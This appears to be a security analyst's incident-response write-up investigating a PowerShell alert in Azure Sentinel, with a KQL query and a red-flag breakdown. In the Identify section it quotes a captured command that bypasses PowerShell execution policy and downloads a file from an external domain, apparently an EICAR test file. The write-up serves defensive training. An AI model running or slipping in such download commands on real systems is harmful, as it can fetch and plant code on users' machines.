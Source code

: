 ### P - PREPARE (8:00 PM - 8:10 PM)

**Gathered Required Context:**
- Alert severity and description
- Detection rule logic and threshold
- Expected baseline behavior
- Recent security advisories

**Tools Prepared:**
- Azure Sentinel Log Analytics workspace
- KQL query templates for investigation
- MITRE ATT&CK framework reference
- Incident response playbook

**Initial Assessment:**
- **Risk Level:** Potentially HIGH if malware download or C2
- **Urgency:** Immediate investigation required
- **Scope:** Single user, single endpoint initially

---

### I - IDENTIFY (8:10 PM - 8:30 PM)

**Event ID 4688 Analysis:**

Queried Log Analytics for process creation events:

```
SecurityEvent
| where EventID == 4688
| where Process has "powershell.exe"
| where TimeGenerated between (datetime(2025-10-12 20:10:00) .. datetime(2025-10-12 20:20:00))
| where Account == "user123"
| project TimeGenerated, Account, Computer, ProcessCommandLine
```

**Key Findings from Command-Line Analysis:**

**Command Executed:**
```
powershell.exe -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri 'http://testdomain.com/eicar.txt' -OutFile 'C:\temp\test.txt'"
```

**Red Flags Identified:**
1. `-ExecutionPolicy Bypass` - Attempting to bypass script execution policy
2. `Invoke-WebRequest` - Downloading file from external URL
3. External domain: testdomain.com (unknown origin)
4. Output file: C:\temp\test.txt (local disk write)

**CRITICAL CLARIFICATION - ExecutionPolicy Bypass:**
- Does NOT bypass antivirus or EDR detection
- Only disables PowerShell script signing policy
- Windows Defender still scans downloaded files
- This is commonly misunderstood even by security professionals

---